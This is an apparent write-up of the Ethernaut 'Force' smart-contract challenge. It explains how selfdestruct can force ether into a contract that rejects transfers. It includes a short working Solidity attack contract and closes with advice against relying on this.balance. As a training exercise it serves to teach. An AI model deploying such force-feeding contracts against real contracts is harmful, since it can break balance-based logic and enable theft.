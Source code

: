 The vulnerability that this contract tries to teach about is really interesting. Our goal is to increase the balance of a contract that does not allow us to transfer any amount of ether to it. How do we do that? The answer is on a function called `selfdestruct()`.

`selfdestruct(address)` is a function that allows us to destroy a smart contract and send its balance to the address that's specified. So, in order to send ether to the Force contract, we'll have a contract using selfdestruct and sending its ether to Force, whose balance will now increase.

The contract I've made to exploit this vulnerability is this:

```solidity


// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


//Contract for exploiting the Force smart contract from ethernaut:
//https://ethernaut.openzeppelin.com/level/0x4e8Da8e21d27A10BA7d2510cB90338374828bE86

contract breakForce {
    
    address owner;
    address payable target;
    
    constructor(address payable addr) {
        owner = msg.sender;
        target = addr;
    }

    modifier onlyOwner {
        require(msg.sender == owner, "You are not the owner");
        _;
    }


    function attack() public payable onlyOwner{
        selfdestruct(target);
    }


}

```

We have to deploy this contract with our target address as a parameter. Then, we exploit the Force contract by calling the function attack while sending a bunch of ether. 

Because of the effect that `selfdestruct` can cause to the balance of any smart contract, it is important to take care of the way we measure the balance, trying to avoid the use of `this.balance` in favor of other ways of implementation, like storing it in a variable.